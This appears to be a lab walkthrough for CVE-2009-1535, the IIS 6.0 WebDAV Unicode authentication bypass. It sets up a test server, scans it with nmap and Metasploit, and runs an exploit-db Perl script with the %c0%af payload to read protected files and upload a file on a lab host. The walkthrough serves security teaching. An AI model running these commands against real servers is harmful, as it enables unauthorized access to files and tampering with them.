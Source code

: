 
CVE-2009-1535  |  IIS 6.0 WebDAV Unicode Authentication Bypass (Part 1)

Part1: https://www.youtube.com/watch?v=DRxaEvuwQbA

Part2: https://www.youtube.com/watch?v=mz8DlKZyXTk

--------------

IIS 6.0 WebDAV Unicode Authentication Bypass

CVE-2009-1535
https://www.cvedetails.com/cve/CVE-2009-1535/
https://www.rapid7.com/db/modules/auxiliary/scanner/http/dir_webdav_unicode_bypass

--------------

### Part 1 

1. On Server 2003 machine, create the following folder structure:

C:\demo1\demo11\secret111.txt
C:\demo2\demo22\secret222.txt

2. Enable WebDAV...

Default Web Site > New > Virtual Directory > Alias => intranet1
Default Web Site > New > Virtual Directory > Alias => intranet2

Web Site Properties > Home Directory > Read + Write + Directory browsing 
		    > Directory Security > Authentication Method > only Windows Authenticated Users can access this 

3. Testing authentication method

Try to access the website/file on victim machine
http://192.168.50.3/intranet1/demo1/demo11/secret111.txt

Try to access the website/file from Kali machine
http://192.168.50.3/intranet2/demo2/demo22/secret222.txt

4. Use the following scripts to check the vulnerability

Option 1: using Nmap

> nmap --script http-iis-webdav-vuln -p 80 192.168.50.3

Need to add "intranet1" + "intranet2" manually into the dictionary file

> nmap --script http-iis-webdav-vuln --script-args=webdavfolder=intranet1 -p 80 192.168.50.3
> nmap --script http-iis-webdav-vuln --script-args=webdavfolder=intranet2 -p 80 192.168.50.3

Option 2: using Metasploit module

msf> use auxiliary/scanner/http/dir_webdav_unicode_bypass

Need to add "intranet1" + "intranet2" manually into the dictionary file

> echo intranet1 >> /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt
> echo intranet2 >> /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt

Why does Directory traversal attack %C0%AF work?

https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work

### Part 2 

5. Exploit

https://www.exploit-db.com/exploits/8806/

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af

> path

Copy XML content to temp.html > open with Web browser

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af/demo1/demo11/secret111.txt

> source

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af/demo1/demo11/secret111.txt

> put  =>  /root/pm.txt

Try to access that file from local/remote machine (my_file.txt)

http://192.168.50.3/intranet1/demo1/demo11/my_file.txt

